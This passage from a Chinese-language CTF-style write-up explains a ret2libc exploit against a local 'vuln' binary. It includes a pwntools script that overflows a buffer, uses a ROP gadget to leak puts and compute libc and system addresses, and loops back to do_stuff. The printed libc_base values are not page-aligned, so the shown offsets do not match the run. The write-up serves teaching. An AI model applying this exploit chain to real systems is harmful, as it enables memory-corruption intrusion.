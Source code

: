 第一階段的exploit長這樣，其中`puts`跟`system`的地址用`readelf -s [elf]`看
```py
# Phase 1
payload  = b'A'*136      # dummy
payload += p64(0x400913) # to gadget
payload += p64(0x601018) # value for rdi
payload += p64(0x400540) # to puts

r.sendline(payload)
r.recvline() # \n
r.recvline() # AaAaAa...
res = r.recvline().rstrip()

# Address calculation
puts_runtime = u64(res + b'\x00' * (8-len(res)) )
print(f'[1] puts_runtime = {hex(puts_runtime)}')
#  422: 0000000000080a30   512 FUNC   WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
libc_base = puts_runtime - 0x80a30
print(f'[2] libc_base = {hex(libc_base)}')
# 1403: 000000000004f4e0    45 FUNC   WEAK   DEFAULT   13 system@@GLIBC_2.2.5
system_runtime = libc_base + 0x4f4e0
print(f'[3] system_runtime = {hex(system_runtime)}')
```
```
❯ python3 ./exploit-local.py
[+] Starting local process './vuln': pid 31852
[1] puts_runtime = 0x7f6ddd6935a0
[2] libc_base = 0x7f6ddd612b70
[3] system_runtime = 0x7f6ddd662050
[*] Stopped process './vuln' (pid 31852)

❯ python3 ./exploit-local.py
[+] Starting local process './vuln': pid 31857
[1] puts_runtime = 0x7f9031c5f5a0
[2] libc_base = 0x7f9031bdeb70
[3] system_runtime = 0x7f9031c2e050
[*] Stopped process './vuln' (pid 31857)
```
隨意運行兩次可以發現地址是不一樣的，但這是預期中的情況，因為libc有PIE

地址是拿到了，但程式也就這樣結束了，好不容易拿到的`system`還沒登場，而且下次再開地址也不一樣，所以勢必不能讓它就這樣死掉

那回到哪裡比較好？回到`do_stuff`是一個好選擇，可以持續利用buffer overflow繼續接下來的事情，所以在第一階段的最後加上`do_stuff`的地址讓`puts`的`ret`回到那邊

```py
# Phase 1
payload  = b'A'*136      # dummy
payload += p64(0x400913) # to gadget
payload += p64(0x601018) # value for rdi
payload += p64(0x400540) # to puts
payload += p64(0x4006d8) # to do_stuff

r.sendline(payload)
r.recvline() # \n
r.recvline() # AaAaAa...
res = r.recvline().rstrip()

# Address calculation
puts_runtime = u64(res + b'\x00' * (8-len(res)) )
print(f'[1] puts_runtime = {hex(puts_runtime)}')
#  422: 0000000000080a30   512 FUNC   WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
libc_base = puts_runtime - 0x80a30
print(f'[2] libc_base = {hex(libc_base)}')
# 1403: 000000000004f4e0    45 FUNC   WEAK   DEFAULT   13 system@@GLIBC_2.2.5
system_runtime = libc_base + 0x4f4e0
```